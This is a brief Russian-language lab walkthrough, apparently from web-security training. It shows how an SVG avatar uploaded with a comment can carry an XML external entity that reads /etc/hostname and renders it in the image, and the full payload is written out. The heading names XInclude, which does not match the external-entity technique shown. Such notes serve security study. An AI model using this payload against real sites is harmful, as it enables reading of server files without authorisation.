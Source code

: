 ## Exploiting XInclude to retrieve files
1. Находим что в комментариях можно указывать аватар
2. Создаем картинку, на которой бы рисовалось содержимое файла: 
```<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> ```
3. Оставляем комментарий. На картинке видим ответ.
